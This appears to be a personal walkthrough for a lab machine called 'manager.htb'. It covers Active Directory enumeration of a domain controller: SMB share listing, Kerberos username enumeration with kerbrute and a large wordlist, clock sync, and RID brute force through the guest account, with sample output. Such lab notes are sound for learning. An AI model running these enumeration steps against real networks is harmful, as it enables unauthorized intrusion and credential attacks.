 -mssql <> kerber roasting <> service principle name (SPN)
-check the website port 80

```bash
┌──(pwn㉿kali)-[~]
└─$ smbclient -L 10.10.11.236 
Password for [WORKGROUP\pwn]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 

```
-kerbrute
```bash
┌──(pwn㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ sudo ./kerbrute  -h
```

```bash
┌──(pwn㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ sudo ./kerbrute userenum -d manager.htb --dc 10.10.11.236 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

pre-auth check
----
ryan@manager.htb
guest@manager.htb
cheng@manager.htb
raven@manager.htb
administrator@manager.htb
Ryan@manager.htb
Raven@manager.htb
operator@manager.htb
Guest@manager.htb
Administrator@manager.htb
Cheng@manager.htb
----
```
If a **valid** username is provided but the password is wrong, Kerberos returns **`KRB5KDC_ERR_PREAUTH_REQUIRED`** (Pre-authentication required).
1. If an **invalid** username is provided, Kerberos returns **`KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN`** (User does not exist).
By cycling through a large username list, Kerbrute can determine which usernames **exist** in the target domain
-or
```bash
sudo ntpdate 10.10.11.236  <> sync clock with domain controler
```
---
-RID brute force no wordlist needed , no account blocks
```bash

┌──(pwn㉿kali)-[~]
└─$ netexec smb 10.10.11.236 -u 'guest' -p '' --rid-brute
it actuakly look for knows sid

-SMB         10.10.11.236    445    DC01             1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
sample output

```